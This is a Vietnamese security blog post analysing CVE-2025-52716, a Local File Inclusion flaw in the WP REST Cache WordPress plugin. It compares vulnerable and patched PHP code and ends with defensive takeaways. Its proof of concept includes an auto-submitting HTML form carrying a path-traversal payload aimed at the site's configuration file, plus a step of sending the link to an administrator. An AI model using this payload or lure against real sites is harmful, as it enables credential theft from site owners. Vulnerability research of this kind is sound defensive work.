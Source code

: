 ```yaml
---
title: CVE-2025-52716 Analysis & POC
description: Security Vulnerability in WordPress WP REST Cache Plugin.
date: 2025-10-20 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info
Plugin **WP REST Cache** phiên bản **≤ 2025.1.0** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-52716](https://www.cve.org/CVERecord?id=CVE-2025-52716)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 2025.1.0
* **Patched Versions**: 2025.1.1
* **CVSS severity**: High (7.5)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress WP REST Cache Plugin](https://wordpress.org/plugins/wp-rest-cache/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **WP REST Cache**: **2025.1.0** (vulnerable) và **2025.1.1** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {filename="class-admin.php v2025.1.0" hl_lines=[4,10,12]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }
    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

Trong phiên bản lỗi, `$sub` là giá trị trả về của [`filter_input()`](https://www.php.net/manual/en/function.filter-input.php) lấy giá trị từ tham số GET (`?sub=...`) trong URL với filter [`FILTER_SANITIZE_FULL_SPECIAL_CHARS`](https://www.w3schools.com/php/filter_sanitize_special_chars.asp) dùng để esacape `"<>&` và các ký tự với ASCII value dưới 32. Tức không bao gồm `.(46)` và `/(47)`

`$sub` được concat vào chuỗi có `'.php'` sau cùng trước khi được `include_once` mà không có cơ chế bảo vệ trước **LFI**.

**Bản vá**:

```php {filename="class-admin.php v2025.1.1" hl_lines=[4,9,10,11,12,16,18]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }

    $potential_sub_file = __DIR__ . '/partials/sub-' . $sub . '.php';
    if ( dirname( $potential_sub_file ) !== __DIR__ . '/partials' ) {
        $sub = 'settings';
    }

    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

Bản vá đã thêm cơ chế **kiểm tra vị trí file trước khi include**, đảm bảo file được nạp chỉ nằm trong thư mục `partials`. Nếu phát hiện đường dẫn ra ngoài (do chuỗi như `../`), plugin tự động chuyển về file mặc định an toàn. Nhờ đó, lỗ hổng **LFI** bị loại bỏ.

### Vulnerable Code 

`settings_page()` được đăng ký làm callback của submenu 

```php {filename="class-admin.php v2025.1.0" hl_lines=[8,9]}
add_submenu_page(
    'options-general.php',
    'WP REST Cache',
    'WP REST Cache',
    $capability,
    'wp-rest-cache',
    [
        $this,
        'settings_page',
    ]
);
```

Tức khi truy cập endpoint

```http
GET /wp-admin/options-general.php?page=wp-rest-cache HTTP/1.1
```

thì `settings_page()` được gọi.

## Exploit
### Proof of Concept (PoC)

#### Step 1

Tạo trang web có form, tự động gửi request với LFI payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://localhost:80//wp-admin/options-general.php" method="get">
        <input type="text" name="page" value="wp-rest-cache">
        <input type="text" name="sub" value="/../../../../../../wp-cofnig">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2

Gửi link đến trang web cho admin hoặc người dùng có đặc quyền

> [!WARNING]
> Lỗ hổng này chỉ khai thác được trên **Windows**, vì hàm `file_exists()` xử lý đường dẫn khác nhau giữa hai hệ điều hành. Trên **Linux**, nếu đường dẫn chứa thư mục không tồn tại, hàm sẽ trả về `false`. Trong khi đó, trên **Windows**, cùng đường dẫn đó lại có thể trả về `true`, khiến điều kiện kiểm tra bị bỏ qua và lỗ hổng có thể kích hoạt.

## Conclusion

Phiên bản **≤ 2025.1.0** của WP REST Cache cho phép **Local File Inclusion** qua tham số `sub`. Bản vá **2025.1.1** giải quyết bằng cách kiểm tra vị trí file trước khi include — đảm bảo file chỉ được nạp nếu nằm trong thư mục `partials`, từ đó loại bỏ khả năng path traversal/LFI.

## Key takeaways

* Lấy dữ liệu trực tiếp từ request và ghép vào đường dẫn file là rủi ro LFI.
* Luôn xác thực **vị trí thực tế** của file (đường dẫn tuyệt đối) trước khi include.
* Kiểm soát phạm vi file bằng so sánh thư mục đích (whitelist) hiệu quả hơn chỉ sanitize ký tự.
* Kiểm tra trên nhiều nền tảng (Windows/Linux) vì hành vi hàm file có thể khác nhau.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress WP REST Cache Plugin <= 2025.1.0 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/wp-rest-cache/vulnerability/wordpress-wp-rest-cache-2025-1-0-local-file-inclusion-vulnerability)